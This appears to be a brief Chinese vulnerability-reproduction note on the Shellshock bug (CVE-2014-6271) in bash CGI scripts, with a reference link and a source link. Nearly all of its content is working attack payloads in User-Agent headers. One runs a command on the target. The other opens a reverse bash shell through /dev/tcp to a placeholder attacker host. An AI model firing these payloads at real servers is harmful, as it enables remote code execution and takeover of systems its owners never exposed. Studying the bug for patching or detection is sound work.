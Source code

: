 ```yaml
---
layout: post
title: Shellshock破壳漏洞
abbrlink: e3d6f3773d5f4026af2a1198f6786d77
tags: []
categories:
  - 漏洞挖掘与复现
  - web应用
date: 1735135073716
updated: 1735135073717
---
```


```python
CVE-2014-6271

https://mp.weixin.qq.com/s/XEkWE8lBDMPW191uAvz_LA
```

```python
漏洞路径一般是xxx.cgi
/cgi-bin/test.cgi

User-Agent: () { foo; }; echo Content-Type: text/plain; echo; /usr/bin/id
User-Agent:() { :;}; echo;/bin/bash -i >& /dev/tcp/x.x.x.x/8001 0>&1

```

> 更新: 2023-04-20 20:53:06\
> 原文: <https://www.yuque.com/yuqueyonghuwrqimt/vtxvff/ykwgh7x55ot61d18>
